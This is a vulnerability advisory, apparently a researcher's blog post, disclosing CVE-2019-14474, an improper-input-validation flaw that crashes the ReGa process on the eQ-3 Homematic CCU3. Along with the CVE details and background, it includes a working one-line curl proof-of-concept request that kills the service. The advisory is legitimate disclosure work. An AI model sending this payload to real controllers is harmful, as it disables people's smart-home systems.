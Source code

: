 ```yaml
---
layout: post
title:  "CVE-2019-14474 eQ-3 Homematic CCU3 has Improper Input Validation in function 'Call()' of ReGa core logic process, resulting in the ability to start a Denial of Service. Due to Improper Authorization an attacker can obtain a session ID from CVE-2019-9583 or a valid guest/user/admin account can start this attack too"
date:   2019-08-03 23:45:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14474
- Author: psytester
- Title: eQ-3 Homematic CCU3 has Improper Input Validation in function 'Call()' of ReGa core logic process, resulting in the ability to start a Denial of Service. Due to Improper Authorization an attacker can obtain a session ID from CVE-2019-9583 or a valid guest/user/admin account can start this attack too
- Vulnerability Type: CWE-20: Improper Input Validation
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU3
- Vendor contacted: 08.05.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Input Validation vulnerability has been identified. It can be exploited in order to start a Denial of Service of the ReGa core logic process. This vulnerability can be exploited by unauthenticated attackers with access to the web interface with obtaining a SessionID from CVE-2019-9583 and by authenticated users too.<br>
<br>
First get a SessionID from any page detected by CVE-2019-9583 or login as valid user.<br>
<br>
On shell console verify the ReGa process PID:<br>
```
# ps -afe | grep ReGa
20956 root      0:00 /bin/ReGaHss.normal -f /etc/rega.conf -l 2
20998 root      0:00 grep ReGa
```

Send this POST request with a ```Call("")```, means double quotation marks without content and your SessionID:<br>
```curl -X POST -i 'http://1.2.3.4/esp/exec.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[Call("")]]></prototypejs>'```<br>
<br>
This results into  ```HTTP 500 Internal Server Error```<br>
<br>
On shell console you can verify that the ReGa process has been died and the CCU does not longer work:<br>
```
# ps -afe | grep ReGa
21019 root      0:00 grep ReGa
```

# CVE

[CVE-2019-14474](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14474)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
